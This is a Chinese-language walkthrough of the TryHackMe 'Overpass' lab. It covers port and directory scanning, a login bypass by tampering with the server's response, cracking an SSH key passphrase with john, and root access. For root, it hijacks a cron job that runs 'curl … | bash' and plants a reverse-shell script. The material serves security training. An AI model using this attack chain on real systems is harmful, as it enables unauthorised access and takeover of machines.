 ```yaml
---
title: tryhackme - Overpass
---
```


```
Target ip :10.10.105.142
```

### 扫描开放端口：
```bash
└─$ nmap -sS -Pn -T4 10.10.105.142

Nmap scan report for 10.10.105.142
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

### 访问80端口：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709180205031.png)


### 对站点进行目录扫描：
```bash

└─$ python dirsearch.py -u http://10.10.105.142/ -i 200 

Target: http://10.10.105.142/

[06:06:39] Starting:                                                                                     
[06:07:08] 200 -  782B  - /404.html                                         
[06:07:18] 200 -    1KB - /admin.html                                       
[06:07:18] 200 -    1KB - /admin/                                           
[06:08:03] 200 -    2KB - /downloads/                                       
[06:08:27] 200 -    2KB - /login.js                                         
[06:08:29] 200 -   28B  - /main.js   

```

### 访问http://10.10.105.142/login.js：
```js
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
#### 可以看到，如果登陆返回的statusOrCookie === "Incorrect credentials"，则显示登陆失败，否则跳转到adminstatusOrCookie === "Incorrect credentials"页面
#### 那么，抓包并修改返回值Incorrect credentials，成功登陆阳台：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709181813152.png)

![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709182059844.png)
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709182125770.png)

### 将admin页面的RSA 文件保存到本地命名为id_rsa，并使用john破解密码,得到密码  james13：
```bash
└─$ ssh2john ./id_rsa > id_rsa.hash                               
                                                                                                         
(base) ┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (./id_rsa)     
1g 0:00:00:00 DONE (2025-07-09 06:27) 25.00g/s 334400p/s 334400c/s 334400C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
 
### 使用密钥连接ssh:
 ```bash
 └─$ sudo ssh james@10.10.105.142 -i id_rsa

Enter passphrase for key 'id_rsa': 

james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```

#### 查看todo.txt:
```bash
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
#### 提示定时任务，所以去查看/etc/crontab:
```bash
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

```

#### 可以看到执行了一个buildscript.sh，并且是从`overpass.thm/downloads/src`下载的
#### 查看hosts文件，发现`overpass.thm`的解析地址是本地：
```bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```
#### 尝试将hosts解析修改成自己攻击ip,并在本地开启http服务，放置一个`buildscript.sh`，`buildscript.sh`设置反向shell命令，并开启监听,成功获得root shell：
![image.png](https://raw.gitmirror.com/DarkLord-W/CloudImages/main/images/20250709184721131.png)
